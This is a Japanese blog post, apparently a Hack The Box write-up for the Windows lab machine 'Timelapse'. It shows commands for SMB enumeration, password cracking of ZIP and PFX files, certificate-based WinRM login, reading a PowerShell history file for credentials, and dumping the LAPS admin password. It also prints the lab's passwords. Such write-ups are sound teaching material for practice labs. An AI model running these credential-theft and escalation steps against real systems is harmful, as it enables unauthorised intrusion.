+++
draft = false
date = '2025-12-19T23:27:02+09:00'
title = 'HTB: Timelapse'
tags = ['HackTheBox', 'Windows', 'Easy']
+++

## 概要
>  **Machine:** [Timelapse](https://www.hackthebox.com/machines/timelapse)  
>  **OS:** Windows  
>  **Difficulty:** Easy


## ポートスキャン

`Nmap`でポートスキャンします。

```bash
sudo nmap -sC -sV <RHOST>
```


### スキャン結果

Nmapスキャン結果から、以下のポートが開放されていることがわかります。
WinRM(5986)が使用されていることに注意します。

| ポート | サービス |  |
|------|---------|---------|
| 53/tcp | DNS |  |
| 88/tcp | Kerberos |  |
| 135/tcp | RPC |  |
| 139/tcp | NetBIOS |  |
| 389/tcp | LDAP |  |
| 445/tcp | SMB |  |
| 464/tcp | Kerberos |  |
| 593/tcp | RPC |  |
| 636/tcp | LDAP |  |
| 3268/tcp | LDAP |  |
| 3269/tcp | LDAP |  |
| 5986/tcp | WinRM (HTTPS) |  |


## SMB列挙

`smbclient`で共有フォルダを一覧表示します。

```bash
smbclient -N -L <RHOST>
```

`Shares`と`SYSVOL`が見つかります。


`Shares`にアクセスします。

```bash
smbclient -N //<RHOST>/Shares
```

`ls`コマンドで、`Dev`と`HelpDesk`の２つのフォルダが見つかりました。




`mget`コマンドで、`Shares`配下のファイルを一括ダウンロードします。

```bash
recurse on
prompt off
mget *
```
ダウンロードが完了したら、`exit`コマンドで接続を終了します。

```bash
exit
```



<!--
SYSVOLフォルダは？他のフォルダは？
-->

## ファイル精査

ダウンロードした`Dev`フォルダの中身を見ると、`winrm_backup.zip`が見つかります。
`unzip`コマンドで、このZIPファイルの展開を試みると、パスワード入力が求められます。




一方、`HelpDesk`フォルダには、ファイルが4つあります。いずれもLAPS技術に関するMicrosoft社公式ドキュメントのようです。

## ZIPファイルのパスワード解析


ZIPファイル`winrm_backup.zip`のパスワードを明らかにします。

まずは、`zip2john`でパスワードハッシュを抽出します。

```bash
zip2john htb/timelapse/Dev/winrm_backup.zip > htb/timelapse/winrm_backup.hash
```

`John`でパスワードを解析します。ここで、ワードリストに`rockyou.txt`を使用します。

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt htb/timelapse/winrm_backup.hash
```
実行結果より、パスワードは`supremelegacy`であることがわかります。




## PFXファイルのパスワード解析

入手したパスワード`supremelegacy`で`winrm_backup.zip`を展開します。
PFXファイルが見つかりますが、これもまたパスワードで保護されています。

先ほどと同じ要領で、PFXファイルのパスワードを明らかにします。

`pfx2john`でパスワードハッシュを抽出します。

```bash
pfx2john htb/timelapse/legacyy_dev_auth.pfx > htb/timelapse/legacyy_dev_auth.hash
```

`John`でパスワードを解析します。ワードリストに`rockyou.txt`を使用します。

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt htb/timelapse/legacyy_dev_auth.hash
```

パスワードは`thuglegacy`であることがわかりました。




## 秘密鍵・公開鍵の抽出

PFXファイルから秘密鍵と公開鍵を抽出します。

- 秘密鍵の抽出


```bash
openssl pkcs12 -in htb/timelapse/legacyy_dev_auth.pfx -nocerts -out htb/timelapse/legacyy_dev_auth.key
```

- 公開鍵の抽出


```bash
openssl pkcs12 -in htb/timelapse/legacyy_dev_auth.pfx -nokeys -out htb/timelapse/legacyy_dev_auth.cert
```

<!--
key certでいいのか
-->

## WinRM経由での接続 (legaccy)

抽出した秘密鍵と公開鍵を使って、WinRM経由でマシンに接続します。

```bash
evil-winrm -c htb/timelapse/legacyy_dev_auth.cert -k htb/timelapse/legacyy_dev_auth.key -i <RHOST> -S
```

接続は成功しました。`whoami`コマンドを実行すると、`legaccy`ユーザーとしてログオンできていることがわかります。



## userフラグの取得

`legaccy`ユーザーの`Desktop`配下にuserフラグが見つかります。



`type`コマンドでフラグを表示します。

```bash
type Desktop/user.txt
```

## PowerShellコマンド履歴の閲覧

PowerShellのコマンド履歴を表示します。

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

<!--
ConsoleHost_historyとは？

whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit


-->


ユーザー名`svc_deploy`のパスワードが`E3R$Q62^12p7PLlC%KWaxuaV`であることがわかります。



## WinRM経由での接続 (svc_deploy)


```bash
evil-winrm -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -i <RHOST> -S     
```


## ReadLAPSPassword

`whoami`コマンドで、`svc_deploy`が所属するグループを表示してみます。

```bash
whoami /groups
```



`LAPS_Readers`という名前のグループに所属していることがわかりました。

このグループ名から、LAPSパスワードを閲覧できることが推測できます。

> マシン名Timelapseの由来？

LAPSパスワードは、`ms-mcs-admpwd`に格納されているため、`Get-ADComputer`コマンドレットで表示します。

```bash
Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
参考：[ReadLAPSPassword | The Hacker Recipes](https://www.thehacker.recipes/ad/movement/dacl/readlapspassword)

実行結果より、パスワードが`Gp&/n0ibz2JRQ4{GSTJ);P;0`であることがわかります。


## WinRM経由での接続 (administrator)

入手したパスワードを使い、`administrator`ユーザーとしてマシンに接続してみます。

```bash
evil-winrm -u administrator -p 'Gp&/n0ibz2JRQ4{GSTJ);P;0' -i <RHOST> -S
```
見事、管理者権限でマシンに接続することができました。




## rootフラグの取得

`TRX`ユーザーの`Desktop`配下にrootフラグが見つかります。



## 関連ページ

今回のWriteupで使用したペネトレツールなど、関連ページを紹介します。







